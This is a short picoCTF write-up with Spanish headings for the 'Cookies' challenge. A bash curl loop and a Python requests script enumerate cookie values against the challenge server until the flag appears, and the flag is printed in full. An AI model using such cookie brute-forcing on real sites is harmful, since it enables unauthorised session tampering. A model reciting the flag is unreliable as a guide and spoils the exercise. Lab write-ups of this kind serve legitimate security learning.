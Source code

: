 ## Descripcion

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)
## Solucion
``` bash
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do  curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>

```

``` python 
import requests

url = "http://mercury.picoctf.net:6418/check"

for i in range(21):
        cookie = {"name":f"{i}"}
        r = requests.get(url, cookies=cookie)
        if "picoCTF{" in r.text:
                print(r.text)
```

``` bash
┌──(kali㉿kali)-[~]
└─$ python exploid.py
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>

```

## Bandera

picoCTF{3v3ry1_l0v3s_c00k135_88acab36}

## Notas adicionales
|

## Referencias
